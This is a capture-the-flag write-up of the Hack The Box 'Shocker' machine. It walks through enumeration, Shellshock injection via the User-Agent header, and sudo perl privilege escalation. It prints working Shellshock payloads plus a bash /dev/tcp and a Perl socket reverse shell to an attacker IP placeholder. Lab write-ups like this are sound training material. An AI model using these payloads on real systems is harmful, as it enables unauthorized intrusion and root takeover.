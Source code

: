# Hack The Box — Shocker (Linux, Easy) — Writeup

## Table of Contents
1. General Info
2. Objectives
3. Enumeration
4. Exploitation (Shellshock)
5. Initial shell (user)
6. Privilege escalation
7. Post-exploitation proof
8. Cleanup
9. Key takeaways
10. Artifacts / Screenshots (proofs)

---

## 1. General Info
Machine: Shocker  
Platform: Hack The Box (retired)  
OS: Linux (Ubuntu)  
Difficulty: Easy  
Attack chain: Shellshock (CGI) → Reverse shell (user `shelly`) → `sudo` abuse (`/usr/bin/perl`) → root  
Flags: user.txt and root.txt (both retrieved and documented)

---

## 2. Objectives
- Enumerate exposed services and web resources.  
- Identify and exploit a remote code execution (RCE) vector (Shellshock) in a CGI script.  
- Obtain an interactive shell as a low-privilege user.  
- Escalate privileges to root using NOPASSWD `sudo` for `/usr/bin/perl`.  
- Document commands and provide screenshots as evidence.

---

## 3. Enumeration

Nmap command used (replace placeholders when reproducing):
$ sudo nmap -sC -sV -Pn -oN nmap/full <TARGET_IP>

Key finding: 80/tcp — Apache httpd 2.4.18 (Ubuntu) — CGI presence likely; older versions indicate Shellshock testing priority.

Screenshot (Nmap output):
![01_nmap_results](assets/screenshots/01_nmap_results.png)

Directory brute force on CGI:
$ gobuster dir -u http://<TARGET_IP>/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x sh,pl,cgi,txt

Found: /user.sh reachable at /cgi-bin/user.sh (HTTP 200).  
Screenshot (gobuster):
![02_gobuster_cgi](assets/screenshots/02_gobuster_cgi.png)

Confirm script execution:
$ curl -i http://<TARGET_IP>/cgi-bin/user.sh

Output shows uptime — confirms server executes the script (CGI).  
Screenshot (curl output):
![03_curl_user_sh](assets/screenshots/03_curl_user_sh.png)

---

## 4. Exploitation (Shellshock)

Rationale: Bash-based CGI on outdated server → Shellshock (CVE-2014-6271) likely exploitable. Typical injection via HTTP header (User-Agent, Referer, Cookie).

Verification with Burp Repeater (example payloads):

Payload to check whoami (User-Agent header):
() { :; }; echo; /bin/bash -c 'whoami'
Response: "shelly" — command executed by CGI process.
Screenshot:
![04_burp_repeater_whoami_req_resp](assets/screenshots/04_burp_repeater_whoami_req_resp.png)

Payload to check id (User-Agent header):
() { :; }; echo; /bin/bash -c 'id'
Response shows uid=1000(shelly) and group membership (adm, lxd, etc.).
Screenshot:
![05_burp_repeater_id_req_resp](assets/screenshots/05_burp_repeater_id_req_resp.png)

Payload to check working directory:
() { :; }; echo; /bin/bash -c 'pwd'
Response: /usr/lib/cgi-bin
Screenshot:
![06_burp_repeater_pwd_req_resp](assets/screenshots/06_burp_repeater_pwd_req_resp.png)

Payload to list files:
() { :; }; echo; /bin/bash -c 'ls'
Response lists user.sh
Screenshot:
![07_burp_repeater_ls_req_resp](assets/screenshots/07_burp_repeater_ls_req_resp.png)

Payload to get system info:
() { :; }; echo; /bin/bash -c 'uname -a'
Response shows kernel and hostname (Shocker).
Screenshot:
![08_burp_repeater_uname_req_resp](assets/screenshots/08_burp_repeater_uname_req_resp.png)

Reverse shell payload (User-Agent) used to get an interactive shell back to the attacker machine (replace <ATTACKER_IP>):
() { :; }; echo; /bin/bash -c 'bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1'

Burp payload screenshot:
![09_burp_repeater_revsh_req](assets/screenshots/09_burp_repeater_revsh_req.png)

Start listener on attacker:
$ nc -lvnp 4444

Listener accepted connection — low-privileged shell as shelly.
Screenshot (nc user shell):
![10_nc_user_shell_4444_conn](assets/screenshots/10_nc_user_shell_4444_conn.png)

---

## 5. Initial shell (user)

Stabilize the shell to a PTY for interactivity:
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
Then: Ctrl+Z ; stty raw -echo ; fg ; export TERM=xterm

Essential checks (user context):
$ whoami        # -> shelly
$ id            # -> uid=1000(shelly) gid=1000(shelly) groups=...
$ pwd           # -> /usr/lib/cgi-bin

Screenshot (user checks):
![11_user_shell_whoami_id_pwd](assets/screenshots/11_user_shell_whoami_id_pwd.png)

---

## 6. Privilege escalation

Check sudo rights:
$ sudo -l

Output:
User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl

This indicates a direct escalation vector: perl can be run as root without password.
Screenshot:
![12_sudo_l_shelly](assets/screenshots/12_sudo_l_shelly.png)

Two reliable escalation options:

Option A — direct root shell:
$ sudo perl -e 'exec "/bin/bash";'

Option B — reverse shell as root (recommended for clean separate listener):
1) On attacker:
$ nc -lvnp 4445
2) On target (shelly):
$ sudo perl -e 'use Socket;$i="<ATTACKER_IP>";$p=4445;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'

Listener shows root shell connection.
Screenshot:
![13_nc_root_shell_4445_conn](assets/screenshots/13_nc_root_shell_4445_conn.png)

---

## 7. Post-exploitation proof

Validate root context:
$ whoami       # -> root
$ id           # -> uid=0(root) gid=0(root)
$ hostname     # -> Shocker
$ pwd          # working directory

Screenshot (root verification):
![14_root_whoami_id](assets/screenshots/14_root_whoami_id.png)

Capture root flag:
$ cat /root/root.txt
Root flag captured (masked in public evidence). Screenshot (masked):
![15_root_flag](assets/screenshots/15_root_flag.png)

Capture user flag:
$ cat /home/shelly/user.txt
User flag captured (masked for public report): 9f4e2a...b7c3

---

## 8. Cleanup
- Closed interactive shells (exit).  
- Stopped local listeners.  
- No persistent changes made to target beyond transient command execution.  
- Sensitive artifacts (full flag values) are stored privately and masked in public content.

---

## 9. Key takeaways
- Legacy CGI endpoints with outdated Bash are high risk for Shellshock RCE.  
- NOPASSWD sudo entries for common interpreters (perl, python) are immediate privilege escalation vectors.  
- Use automated detection (Nmap NSE) and manual verification (Burp Repeater) combined for safe exploitation.  
- Redact or mask full flags in public artifacts; preserve complete proofs offline.

---

## 10. Artifacts / Screenshots (ordered)
All artifacts are stored under assets/screenshots/ in the repository. File references below correspond to the uploaded images:

01_nmap_results.png — Nmap output showing services and versions  
02_gobuster_cgi.png — gobuster finding /cgi-bin/user.sh  
03_curl_user_sh.png — curl output showing uptime (user.sh)  
04_burp_repeater_whoami_req_resp.png — Burp whoami request/response  
05_burp_repeater_id_req_resp.png — Burp id request/response  
06_burp_repeater_pwd_req_resp.png — Burp pwd request/response  
07_burp_repeater_ls_req_resp.png — Burp ls request/response  
08_burp_repeater_uname_req_resp.png — Burp uname -a request/response  
09_burp_repeater_revsh_req.png — Burp repeater with reverse shell payload (User-Agent)  
10_nc_user_shell_4444_conn.png — nc listener: user shell connected (shelly)  
11_user_shell_whoami_id_pwd.png — user shell context (whoami, id, pwd)  
12_sudo_l_shelly.png — sudo -l output showing NOPASSWD: /usr/bin/perl  
13_nc_root_shell_4445_conn.png — nc listener: root shell connected  
14_root_whoami_id.png — root shell context verification (whoami/id/hostname/pwd)  
15_root_flag.png — root flag screenshot (masked for public)

---

## Reproduction notes and caution
- Replace <TARGET_IP> and <ATTACKER_IP> placeholders with actual addresses when reproducing steps.  
- Do not run these commands against systems you do not own or have explicit written authorization to test.  
- Screenshots in this report are the evidence captured during the assessment; flags are masked in public copies.

End of writeup.
